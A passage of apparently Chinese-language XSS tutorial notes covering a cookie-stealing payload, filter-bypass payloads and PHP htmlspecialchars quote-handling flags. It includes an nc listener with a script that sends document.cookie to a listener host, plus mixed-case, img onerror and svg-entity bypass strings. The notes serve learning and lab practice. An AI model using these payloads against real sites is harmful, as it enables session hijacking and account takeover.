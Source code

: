 6 使用nc通过xss获取管理员的cookie

```
nc -lvp 4444

<script>var img=document.createElement("img");img.src="http://127.0.0.1:4444/a?"+escape(document.cookie);</script>
```

## XSS之过滤

7
`<sCript>alert(1)</sCript>`
`<img src=x onerror=alert(1)>`

## XSS之htmlspecialchars

8
htmlspecialchars()——把字符转化为html实体（需要svg翻译的东西）——实实在在的东西而不是代码符号

实体编码字符`<svg>`

svg标签会翻译后面的unicode字符

```
<svg><script>alert&#40;1&#41;</script>
```



htmlspecialchars()——实体编码`$ " ' <> #`

```php+HTML
<?php

$a = '<script>alert(1)</script>';
echo htmlspecialchars($a);

?>

访问时发现输出了<script>alert(1)</script>
查看源代码，发现<>确实被实体编码了

程序员编写时会添加参数：
$a = '<script>alert(“1”)</script>';
echo htmlspecialchars($a，ENT_COMPAT);
会发现双引号也被实体编码了
但是：
$a = “<script>alert(‘1’)</script>”;
echo htmlspecialchars($a，ENT_COMPAT);
会发现双引号被实体编码了但是单引号没有被编译
所以有时就会因此产生一些漏洞——单引号逃逸

$a = “<script>alert(‘1’)</script>”;
echo htmlspecialchars($a，ENT_QUOTES);
——单引号和双引号都被实体编码
$a = “<script>alert(‘1’)</script>”;
echo htmlspecialchars($a，ENT_NOQUOTES);
——单引号和双引号都不被实体编码
```
